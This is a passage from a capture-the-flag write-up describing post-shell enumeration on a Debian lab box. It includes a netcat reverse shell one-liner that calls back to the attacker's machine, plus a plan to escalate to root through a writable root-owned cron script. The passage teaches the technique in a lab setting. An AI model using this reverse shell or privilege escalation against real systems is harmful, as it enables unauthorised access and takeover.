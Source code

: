<br>


## 4. Enumeration

Armed with a decent shell, it's time to get some information about the system.


`cat /etc/*release*` tells us we are dealing with Debian - this is good news. <br>
Ubuntu CTFs don't like the simplest `nc` reverse shell, but Debian machines do!
I haven't memorized any of the reverse shell commands yet, but `nc local.machine.ip.addr PORT -e /bin/bash` isn't hard to remember.



`sudo -l` is worth a shot, since we have Mindy's password.<br>
Unfortunately, we find out that Mindy doesn't have access to `sudo.` <br>
This might mean we have to exploit or revshell our way to root.


Before diving deeply into enumeration, I decided to do a quick check of some directories.
Finding nothing in any `/home` folders, I decided to check `/opt` for third party software.
We know the system is running `james` - so maybe there are some useful configuration files.

<br>
![A19](https://i.imgur.com/BywMsv6.png)
<br>


One of these files is noteworthy - `tmp.py`.<br>
It is owned by `root`, but we have write permissions.<br>
Interesting - Let's have a look. <br>

<br>
![A20](https://i.imgur.com/hsREnfc.png)
<br>

<br>

This script seems to just erase the contents of the `/tmp` folder.<br>
Is the `root` user expecting me to put something in there? <br>
If they didn't want us to store things in `/tmp/` I'm sure there is some other method that could prevent us from doing so.<br>
Even if we were prevented from writing to `/tmp`, we can put things in another directory like `/dev/shm`



`rm -r /tmp/*` seems like the kind of command that would be run repeatedly, on a regular asis.. <br>
If it was just going to be run once, the root user would just run the command.<br>
It's likely that this script is run automatically, and likely periodically.<br>
Does `root` run it with a cronjob?

<br>

### Rambling Side Note
It wasn't until I had already been attempting this box for some time did I learn about the existence of cronjobs.<br>
I had to come across the concept in my other attempts to familiarize myself with Linux. <br>
This underscores a ned to understand the fundamentals of the OS.<br>
If you don't understand the OS, it is a lot more difficult to exploit it.
